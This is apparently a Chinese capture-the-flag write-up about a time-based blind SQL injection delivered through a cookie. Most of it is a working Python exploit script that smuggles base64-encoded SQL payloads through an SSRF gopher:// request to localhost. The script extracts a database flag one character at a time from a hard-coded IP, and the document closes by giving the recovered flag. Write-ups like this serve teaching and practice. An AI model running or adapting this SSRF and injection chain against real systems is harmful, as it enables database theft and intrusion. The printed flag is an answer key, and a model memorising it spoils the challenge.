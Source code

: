 发现是cookie注入

因为页面无回显，所以采用延时注入

所以最后用cookies注入测试

```
') union select 1,2,if(1=1,sleep(5),1) #
JykgdW5pb24gc2VsZWN0IDEsMixpZigxPTEsc2xlZXAoNSksMSkgIw==
```

```
import urllib.parse
import requests
import time
import base64
url="http://39.105.136.196:30022/use.php?url="
flag=""
for pos in range(1,32):
	for i in range(33,127):
		#poc="') union select 1,2,if(1=1,sleep(5),1) # "
		poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
		bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
		#print(bs)
		final_poc="gopher://127.0.0.1:80/_GET%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aCookie%3A%20this%5Fis%5Fyour%5Fcookie%3D"+bs+"%3B%250d%250a"
		#print(final_poc)
		t1=time.time()
		res=requests.get(url+final_poc)
		t2=time.time()
		print(i)
		if(t2-t1>2):
			print(t2-t1)
			flag+=chr(i)
			break
print(flag)
```

然后同理可以注入出来flag为

```
flag{7ujsaiwq8819iai_iiwq919i}
```